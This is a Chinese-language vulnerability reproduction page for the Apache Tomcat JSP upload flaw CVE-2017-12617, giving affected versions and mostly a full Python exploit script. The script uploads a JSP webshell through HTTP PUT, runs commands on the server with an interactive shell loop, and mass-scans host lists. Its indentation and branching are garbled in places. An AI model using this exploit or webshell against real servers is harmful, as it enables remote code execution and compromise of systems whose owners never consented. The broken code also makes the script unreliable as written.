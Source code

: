 （CVE-2017-12617）Tomcat RCE via JSP Upload Bypass
==================================================

一、漏洞简介
------------

Apache
Tomcat版本9.0.0.M1至9.0.0、8.5.0至8.5.22、8.0.0.RC1至8.0.46和7.0.0至7.0.81且启用HTTP
PUT时（例如，通过设置只读如果将Default
servlet的初始化参数设置为false，则可以通过特制请求将JSP文件上载到服务器。然后可以请求此JSP，并且服务器将执行其中包含的所有代码。

二、漏洞影响
------------

Apache Tomcat版本9.0.0.M1至9.0.0Apache Tomcat版本8.5.0至8.5.22Apache Tomcat版本8.0.0.RC1至8.0.46Apache Tomcat版本7.0.0至7.0.81

三、复现过程
------------

**msf自带的有利用脚本，懒省事可以直接用msf**![QQ截图20200521185636.png](./.resource/(CVE-2017-12617)TomcatRCEviaJSPUploadBypass/media/rId24.png)

### poc

**useage**

    ./cve-2017-12617.py -u http://www.0-sec.org
    ./cve-2017-12617.py --url http://www.0-sec.org
    ./cve-2017-12617.py -u http://www.0-sec.org -p pwn
    ./cve-2017-12617.py --url http://www.0-sec.org -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    #!/usr/bin/python
    import requests
    import re
    import signal
    from optparse import OptionParser






    class bcolors:
        HEADER = '\033[95m'
        OKBLUE = '\033[94m'
        OKGREEN = '\033[92m'
        WARNING = '\033[93m'
        FAIL = '\033[91m'
        ENDC = '\033[0m'
        BOLD = '\033[1m'
        UNDERLINE = '\033[4m'




    banner="""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    [@intx0x80]
    """





    def signal_handler(signal, frame):

        print ("\033[91m"+"\n[-] Exiting"+"\033[0m")

        exit()

    signal.signal(signal.SIGINT, signal_handler)




    def removetags(tags):
      remove = re.compile('<.*?>')
      txt = re.sub(remove, '\n', tags)
      return txt.replace("\n\n\n","\n")


    def getContent(url,f):
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        re=requests.get(str(url)+"/"+str(f), headers=headers,verify=False)
        return re.content

    def createPayload(url,f):
        evil='<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA");%>'
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+str(f)+"/",data=evil, headers=headers,verify=False)
        if req.status_code==201:
            print "File Created .."

       
    def RCE(url,f):
        EVIL="""<FORM METHOD=GET ACTION='{}'>""".format(f)+"""
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
        </FORM>
        <%@ page import="java.io.*" %>
        <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"</br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <pre><%=output %></pre>"""


        
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+f+"/",data=EVIL, headers=headers,verify=False)
        


    def shell(url,f):
        
        while True:
            headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
            cmd=raw_input("$ ")
            payload={'cmd':cmd}
            if cmd=="q" or cmd=="Q":
                    break
            requests.packages.urllib3.disable_warnings()
            re=requests.get(str(url)+"/"+str(f),params=payload,headers=headers,verify=False)
            re=str(re.content)
            t=removetags(re)
            print t





    #print bcolors.HEADER+ banner+bcolors.ENDC

    parse=OptionParser(


    bcolors.HEADER+"""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    ./cve-2017-12617.py [options]
    options:
    -u ,--url [::] check target url if it's vulnerable 
    -p,--pwn  [::] generate webshell and upload it
    -l,--list [::] hosts list
    [+]usage:
    ./cve-2017-12617.py -u http://127.0.0.1
    ./cve-2017-12617.py --url http://127.0.0.1
    ./cve-2017-12617.py -u http://127.0.0.1 -p pwn
    ./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    [@intx0x80]
    """+bcolors.ENDC

        )


    parse.add_option("-u","--url",dest="U",type="string",help="Website Url")          
    parse.add_option("-p","--pwn",dest="P",type="string",help="generate webshell and upload it")
    parse.add_option("-l","--list",dest="L",type="string",help="hosts File")

    (opt,args)=parse.parse_args()

    if opt.U==None and opt.P==None and opt.L==None:
        print(parse.usage)
        exit(0)



    else:
        if opt.U!=None and opt.P==None and opt.L==None:
            print bcolors.OKGREEN+banner+bcolors.ENDC 
            url=str(opt.U)
            checker="Poc.jsp"
            print bcolors.BOLD +"Poc Filename  {}".format(checker)
            createPayload(str(url)+"/",checker)
            con=getContent(str(url)+"/",checker)
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
            print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
            
        else:
                print 'Not Vulnerable to CVE-2017-12617 '
        elif opt.P!=None and opt.U!=None and  opt.L==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            pwn=str(opt.P)
            url=str(opt.U)
            print "Uploading Webshell ....."
            pwn=pwn+".jsp"
            RCE(str(url)+"/",pwn)
            shell(str(url),pwn)
        elif opt.L!=None and opt.P==None and opt.U==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            w=str(opt.L)
            f=open(w,"r")
            print "Scaning hosts in {}".format(w)
            checker="Poc.jsp"
            for i in f.readlines():
                i=i.strip("\n")
                createPayload(str(i)+"/",checker)
                con=getContent(str(i)+"/",checker)
                if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                    print str(i)+"\033[91m"+" [ Vulnerable ] ""\033[0m"
